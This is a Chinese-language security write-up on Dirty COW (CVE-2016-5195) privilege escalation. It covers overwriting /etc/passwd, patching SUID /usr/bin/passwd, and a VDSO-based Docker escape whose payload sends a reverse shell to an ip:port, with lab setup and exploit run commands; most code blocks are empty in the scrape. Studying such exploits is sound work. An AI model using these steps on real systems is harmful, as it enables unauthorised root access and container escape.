

基于dirtycow的几种提权思路
官方收集了多种基于dirtycow的利用exp并做了分类，提权需要考虑以下两个方面：
如何产生COW
- 写/proc/self/mem
- fork/clone后PTACE_POKEDATA
找哪个只读文件
- 带suid的可执行程序，如/usr/bin/passwd
- 特殊的只读文件，如/etc/passwd
- 公用的一些库，如libc，vdso
利用/etc/passwd提权
exp分析
ngaro的exp 通过/proc/self/mem产生COW，修改/etc/passwd文件中当前用户的uid完成提权，代码逻辑分析如下：
1 |
|
exp验证
环境准备：下载老版本 ubuntu-server 14.04.5 镜像并安装到虚拟机
1 | gcc dirty.c -lpthread -o dirty |
执行完成后，重启linux。以普通用户登录，可以拿到root shell。

利用/usr/bin/passwd提权
exp分析
rverton的exp 通过/proc/self/mem产生COW，修改带SUID位的二进制程序/usr/bin/passwd完成提权，代码逻辑分析如下：
1 |
|
exp验证
环境准备：下载老版本 ubuntu-server 14.04.5 镜像并安装到虚拟机
1 | gcc dirty.c -lpthread -o dirty |
执行完成后，立刻拿到root shell。

利用VDSO完成docker逃逸
如何将dirtycow应用在docker逃逸中呢？scumjr给出了一个基于VDSO的逃逸方案。
VDSO是内核的一个共享库，它被映射给了用户态使用，用户空间中它的权限是rx。而docker使用的就是宿主机host的内核，也就是说VDSO是连通docker和host的一个公共组件，如果这个组件代码段被docker利用漏洞更改，那么就会影响到宿主机host，进而达到docker逃逸的目的。
exp分析
参考文章：
scumjr的exp 通过ptrace子进程的方式产生COW，修改vdso中代码段位置（clock_gettime()函数）完成提权。利用代码分为两个部分：
利用代码逻辑：0xdeadbeef.c - 带注释
主要操作：
解析传入的ip:port
准备payload
vdso中有两处需要patch（如下图红色部分），准备vdso_patch

dirtycow + ptrace完成对VDSO的写入
payload汇编：payload.s
- 功能：判断请求来自docker还是host，如果来自host（且是root进程调用的，且无/tmp/.x文件，表示从未执行过反弹shell的代码）则反弹shell到目标
ip:port - 使用：
nasm -f bin -o payload payload.s,xxd -i payload payload.h - 生成的payload.h如下：
- 功能：判断请求来自docker还是host，如果来自host（且是root进程调用的，且无/tmp/.x文件，表示从未执行过反弹shell的代码）则反弹shell到目标
1 | unsigned char payload[] = { |
exp验证
ubuntu14.04.3-desktop中验证失败（prologue的问题，改一下可以成），ubuntu14.04.5-server中验证成功
参考文章：
搭建实验环境及exp验证步骤如下：
下载老版本 ubuntu-server 14.04.5 镜像并安装：
安装好docker及docker-compose
1
2
3
4
5$ sudo apt-get install libltdl7 libsystemd-journal0
$ wget https://download.docker.com/linux/ubuntu/dists/trusty/pool/stable/amd64/docker-ce_17.03.0~ce-0~ubuntu-trusty_amd64.deb
$ sudo dpkg -i docker-ce_17.03.0_ce-0_ubuntu-trusty_amd64.deb
$ sudo curl -L https://github.com/docker/compose/releases/download/1.21.0/docker-compose-$(uname -s)-$(uname -m) -o /usr/local/bin/docker-compose
$ sudo chmod +x /usr/local/bin/docker-compose设置容器环境
1
2
3$ git clone https://github.com/gebl/dirtycow-docker-vdso.git
$ cd dirtycow-docker-vdso/
$ sudo docker-compose run dirtycow /bin/bash进入容器，编译poc并执行
1
2
3$ cd /dirtycow-vdso/
$ make
$ ./0xdeadbeef 192.168.133.128:1234查看是否成功接收到反弹shell

拓展
RWCTF 2023中有一道题是关于dirtycow的，叫做”Be a Docker Escaper 3”。官方给出的WP中指出，这个题目跟上文scumjr的利用有两点差异：
- 最新版docker中禁用了ptrace。所以得考虑通过
/proc/self/mem产生COW完成利用，那么就有许多代码逻辑要改 - 题目环境中vdso的构造跟scumjr不一样。所以需要人工定位一下
clock_gettime()地址，可以写死在代码逻辑中
出题人给了它的exp：exploit for dirtycow
知识点
什么是vdso
参考文章：
先有vsyscall
vsyscall区域位于内核地址空间，它是唯一允许用户访问的区域。该区域地址固定为0xffffffffff600000，大小固定为4K。所有进程都共享内核映射。但是它有两个缺点，导致开发人员抛弃了vsyscall机制：
- vsyscall映射地址固定不变，使攻击者很容易利用它当跳板（在x86_64上通过emulated vsyscall机制，借助vvar mapping可一定程度上缓解该问题，但性能不如vsyscall native）
- vsyscall支持的系统调用数量有限，无法方便地扩展
vsyscall中支持的三个系统调用：
- gettimeofday()
- time()
- getcpu()

再有vdso
鉴于vsyscall的缺点，开发人员设计了VDSO机制来取代vsyscall。
VDSO的定义：
1 | The "vDSO" (virtual dynamic shared object) is a small shared library |
VDSO与vsyscall的区别：
- VDSO本质上是一个ELF共享目标文件，而vsyscall只是一段内存代码和数据
- vsyscall位于内核地址空间，采用静态地址映射方式；而VDSO借助共享目标文件天生具有PIC特性，可以以进程为粒度动态映射到进程地址空间中。
为了兼容老旧程序，vsyscall机制（native模式和emulation模式）仍旧被保留下来。所以cat /proc/self/maps时可以同时看到vvar，vdso，vsyscall三种特殊的mapping。
导出vdso
为了更直观地看到VDSO，我们有两种方法将其导出：
在gdb中导出vdso
1
dumpmem vdso.so 0x00007ffff7ffa000 0x00007ffff7ffc000
写个c程序导出vdso
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
static unsigned long get_vdso_addr(void)
{
return getauxval(AT_SYSINFO_EHDR); // 获取VDSO的地址
}
int main(int argc, char *argv[])
{
unsigned long vdso_addr;
int fd;
vdso_addr = get_vdso_addr();
printf("[*] vdso addr: %016lx\n", vdso_addr);
fd = open(argv[1], O_CREAT|O_TRUNC|O_WRONLY, 0644);
if (fd == -1)
err(1, "open");
write(fd, (void *)vdso_addr, 0x2000);
return 0;
}